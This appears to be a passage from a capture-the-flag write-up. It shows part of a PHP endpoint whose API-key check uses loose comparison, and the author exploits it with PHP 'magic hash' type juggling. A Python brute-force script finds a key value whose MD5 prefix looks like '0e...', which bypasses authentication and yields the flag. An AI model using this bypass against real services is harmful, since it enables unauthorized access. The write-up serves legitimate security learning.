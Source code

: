``` sourceCode.php
                        else {
                        $apikey = $value;
                        }
                }
}
 
if ($apikey == $key){
        echo('correct key'.'<br>');
        echo($json_response1);
}
 
else{
    echo ('UNAUTHORIZED: x-api-key is incorrect.');
}
?>
```

Analyzing the code, it seems that the possible vulnerable part of the code is likely to be the loose comparison between `$apikey` which we semi-control and `$key`.

But! Since `$key` is set to `0e51[REDACTED]`, we can simply force the check to be `0eXXXX == 0e51[REDACTED]` and this will evaluate to true, giving us the flag.

Furthermore, when an invalid api key is provided, it does not immediately return the response and instead allows the code to flow down to the `if else` condition at the bottom.

So, with that I generated a script to find a API key that when concatenated with `DDL_SuP3RSecret`  and md5 hashed will result in `0eXXXX...`.
```
import hashlib
import requests
import re

def findVulnerableHash():
    tryVal = 0
    while 1:
        m = hashlib.md5()
        concat = "DDL_SuP3RSecret" + str(tryVal)
        m.update(concat.encode())
        # hmac is only offset 0 to 3 [0:4]
        check = m.hexdigest()[0:4]
        print(tryVal, check)
        if re.match(r'0+[eE]\d+$', check):
            print("The valid value for api-key is", tryVal)
            return tryVal
        tryVal += 1
print(findVulnerableHash())
# Gives us 1372 as the API-key we need.
```

As such, we can now send it along as the `X-Api-Key` header value which will give us flag. 

![[Pasted image 20220926001413.png]]
